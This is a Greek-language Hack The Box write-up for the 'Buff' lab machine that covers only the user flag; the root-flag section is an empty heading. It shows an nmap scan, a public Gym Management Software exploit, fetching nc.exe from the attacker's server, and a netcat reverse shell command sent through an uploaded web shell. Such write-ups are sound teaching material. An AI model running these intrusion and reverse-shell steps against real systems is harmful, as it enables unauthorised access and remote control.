 ## [HTB] Hackthebox Buff machine writeup by dhmosfunk



![buff](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/buff.png?raw=true)<br>

[1.User flag]()

[2.Root flag]()




#### 1.User flag
- [x] MACHINE IP: 10.10.10.198 <br> <br>
Πρώτα απ όλα ξεκινάμε με ένα nmap scan για να δούμε τι ports τρέχουν στην IP. <br>
```nmap -sV -sC -oA nmap/buff 10.10.10.198```
![buff](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/nmap%20scan.png?raw=true)

Όπως βλέπουμε στο scan μας τρέχει ενας webserver στο port 8080.
Ανοίγοντας το site στον browser και πηγαίνοντας στο contact.php θα βρούμε το software που τρέχει στον server(Που επίσης είναι outdated).

![outdatedsoftware](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/gymanagement.png?raw=true)

Με ενα google search βρίσκουμε το συγκεκριμένο exploit: [Gym Management Software 1.0 exploit](https://www.exploit-db.com/exploits/48506)

Το κάνουμε download και το τρέχουμε όπως δείχνω στην εικόνα

```python 48506.py http://10.10.10.198:8080/```
![exploit](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/shell.png?raw=true)

Και έχουμε shell!

Τώρα θέλουμε να κάνουμε ενα [reverse shell](https://www.acunetix.com/blog/web-security-zone/what-is-reverse-shell/) που θα το κάνουμε με το netcat.

Πρώτα απο όλα πρέπει να βρούμε το netcat.exe και να το κάνουμε upload στο buff machine

![nc](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/nc.png?raw=true)

Μόλις βρούμε το netcat.exe δημιουργούμε ενα simplehttpserver με την python για να το “τραβήξουμε” στο buff machine <br>
```python -m SimpleHTTPServer 9003 ```
![simplehttpserver](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/httpserver.png?raw=true)


Για να “τραβήξουμε” το nc.exe θα πρέπει να χρησιμοποιήσουμε το ‘wget’ όπως δείχνω παρακάτω <br>
```powershell wget http://10.10.14.41:9009/nc.exe```<br>
![uploadnc](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/uploadnc.png)


Ωραία μέχρι εδω..
Τώρα reverse shell.. Δημιουργούμε ενα listener στο kali machine
```nc -lvvnp 9003```
![nclistener](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/nc%20listen.png?raw=true)

Μόλις βάλουμε τον listener θα πρέπει να πάμε στον browser να τρέξουμε το command:<br>
```10.10.10.198:8080/upload/kamehameha.php?telepathy=nc.exe 10.10.14.41 9003 -e cmd.exe```
![browservs](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/browser%20reverse%20shell.png?raw=true)
<br>
<br>Και μετα βρίσκουμε το user.txt
![userflag](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/userflag.png?raw=true)

![userflag2](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/userflagtxt.png?raw=true)

Και πάμε για το root!








#### 2.Root flag
